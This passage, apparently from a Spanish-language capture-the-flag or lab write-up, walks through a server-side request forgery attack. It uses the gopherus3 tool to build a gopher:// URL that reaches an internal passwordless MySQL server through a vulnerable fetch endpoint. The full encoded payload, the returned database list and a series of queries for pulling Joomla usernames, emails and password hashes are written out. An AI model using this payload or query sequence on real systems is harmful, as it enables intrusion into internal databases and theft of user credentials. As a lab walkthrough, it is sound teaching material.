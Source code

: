 Resultado:

```bash
Give query to execute: SHOW databases;
Give MySQL username: goblin

Your gopher link is ready to do SSRF: 

gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%53%48%4f%57%20%64%61%74%61%62%61%73%65%73%3b%01%00%00%00%01

-----------Made-by-Skyworship-----------
```

Explicación: ejecutamos la herramienta y nos pide una acción a ejecutar que es `SHOW databases;` y un nombre de usuario que es `goblin`. Lo que nos proporciona es una url para SSRF que nos dice que solo es posible usar cuando el usuario no requiere contraseña, que es nuestro caso

Acción: introducimos la url proporcionada por gopherus3 en el buscador vulnerable a SSRF ene el endpoint `/internalResourceFeTcher.php`

```bash
gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%53%48%4f%57%20%64%61%74%61%62%61%73%65%73%3b%01%00%00%00%01
```

Resultado:

```bash
 c 5.5.5-10.3.27-MariaDB-0+deb10u1)nWHDZyqL��-��hHlhGeK%r5Ppmysql_native_passwordKdefinformation_schemaSCHEMATASCHEMATADatabaseSCHEMA_NAME!��information_schemajoomla�"
```

![captura](./Imágenes/web_5.png)  

**Importante:** una vez enviada la 'Fetch' tenemos que recargar varias veces la página `ctrl+r` para que se refresca la información y nos muestre como vemos las bases de datos: `information_schema` y `joomla`. 

Explicación: con esta información y este procedimiento podemos ir enumerando la base de datos hasta dar con usuarios y contraseñas

Acciones a ejecutar en gopherus3:

```bash
SHOW databases;
USE joomla; SHOW tables;
USE joomla; describe joomla_users;
USE joomla; select name,username,email,password from joomla_users;
```
